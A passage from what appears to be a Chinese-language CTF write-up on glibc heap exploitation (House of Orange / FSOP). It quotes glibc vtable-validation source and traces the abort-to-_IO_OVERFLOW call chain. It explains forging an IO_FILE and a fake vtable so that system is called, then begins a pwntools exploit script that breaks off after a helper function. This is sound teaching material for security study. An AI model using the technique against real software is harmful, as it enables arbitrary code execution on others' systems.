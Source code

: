    ```c
        possibility that FILE * objects are passed across the linking
        boundary.  */
     {
       Dl_info di;
       struct link_map *l;
       if (_dl_open_hook != NULL
           || (_dl_addr (_IO_vtable_check, &di, &l, NULL) != 0
               && l->l_ns != LM_ID_BASE))
         return;
     }
   
   #else /* !SHARED */
     /* We cannot perform vtable validation in the static dlopen case
        because FILE * handles might be passed back and forth across the
        boundary.  Therefore, we disable checking in this case.  */
     if (__dlopen != NULL)
       return;
   #endif
   
     __libc_fatal ("Fatal error: glibc detected an invalid stdio handle\n");
   }
       
   
   ```

   最后找函数地址时，使用了_vtable_offset 即 _IO_FILE 结构体的 vtable 指针，而vtable 指针指向的是一个虚表，所以相当于最后调用到了下面的_IO_file_overflow函数，并且传入的参数是fp指针，即文件的地址：

   ![image-20240812181423518](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121814711.png)

   ![image-20240812180745597](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121807778.png)

   随意最后IO_FILE链为：malloc报错 ==> malloc_printerr  ==> __libc_message ==> abort ==> fflush ==> IO_fflush ==> _IO_flush_all ==> _IO_flush_all_lockp ==> _IO_OVERFLOW(最后使用vtable 指向的虚表中的指针)，

   最后在_IO_flush_all_lockp中时有两个**判断条件**需要绕过，才能调用到_IO_OVERFLOW ：

   * fp->_mode <= 0
   * fp-> _IO_write_ptr > fp->_IO_write_base

   所以，在**unsorted bin中构造的IO_FILE**要满足这两个条件即可，最后伪造虚表，并用**system地址覆盖**掉_OVERFLOW指针，并在**vtable位置伪造指针** ，指向这个虚表即可 。

3. 完整EXP：

   ```py
   from pwn import *
   import numpy as np
   # from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node4.anna.nssctf.cn",28353)
   # libc = ELF('./libc.so.6')
   p = process("./pwn") 
   libc = ELF("/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
   # elf = ELF("./pwn")
   
   
   def add(size,name):
       p.sendlineafter(b':',b'1')
       p.sendlineafter(b'it',str(size).encode())
       p.sendafter(b"?",name)
   ```
